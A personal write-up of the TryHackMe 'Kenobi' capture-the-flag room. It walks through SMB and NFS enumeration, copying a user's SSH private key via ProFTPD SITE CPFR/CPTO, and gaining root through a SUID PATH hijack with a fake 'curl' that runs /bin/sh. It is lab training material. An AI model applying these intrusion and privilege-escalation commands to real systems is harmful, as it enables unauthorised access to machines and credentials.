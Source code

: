 # 17. Kenobi 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**

#categoty/windows 
#other/tool
#other/GAtactics 
#other/richInfo
#privilegeEscalation/moderate 
#privilegeEscalation/SUID



## Gaining Access 😉

- nmap script scan on 445th port which runs microsoft-ds/smb
- smbclient enumeration. reffer command [[#Important commands 🔥]]--> 2
- logged in with user password of attacking machine
- just typed `?` for help
- files can be downloaded with `smbget` command [[#Important commands 🔥]] -> 3
- nmap enumeration on rpcbind port 111. command [[#Important commands 🔥]]-->4 
- copied ssh key from /home/kenobi/.ssh/id_rsa to var/tmp using SITE CPFR & SITE CPTO command
- mkdir /mnt/kenobiNFS & `sudo mount ip:/var /mnt/kenobiNFS`
- `sudo mount 10.10.203.188:/var /mnt/kenobiNFS`
- copied id_rsa to present directory & connected with ssh 



## Maintaining Access 🥷
- /usr/bin/menu found with find -u=s mode
	- SUID
- running binary without sudo 
- that dosen't made more sense
- `strings /usr/bin/menu`
- output
	```
	curl -I localhost  
	uname -r  
	ifconfig
	```
	in this, running binary like curl and uname without full path `/usr/bin/curl`
- cd to tmp
- created new file named curl with content, reffer [[#Important commands 🔥]]-->6
- changed permission of curl & added `/tmp` to path
- executed `/usr/bin/menu`<--> officially root now!



## Important commands 🔥
1. nmap scan
	```
	nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse
	```
2. smbclient
	```
	smbclient //10.10.203.188/anonymous
	```
3. sbmget
	```
	smbget \-R smb://10.10.203.188/anonymous
	```
4. rcpbind command
	```
	nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.203.188
	```
5. find syntax to search SUID
	```
	find / -perm -u=s -type f 2>/dev/null
	```
6. curl on tmp
	```
	echo /bin/sh > curl
	chmod 777 curl
	export PATH=/tmp:$PATH
	```
	
	

	
	

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- netcat to connect any port `nc <ip> <port> `  eg: `nc 10.10.203.188 21`
- make permission 600 for ssh keys: id_rsa
- -rw(==SUID==)rw(==SGID==)rw(stickybit)--> SUID permission
	- ==SUID==
		user execute file with file owner permission
	- ==SGID==
		user execute with pemission of group owner
		File created in directory gets the same group owner.
	- ==Stickybit==
		Users are prevented from deleting files from other users.
- executable can be open with `strings` as human readable
		
		


--------------------------------
**By Nibras Muhammed** 🤓🖥️





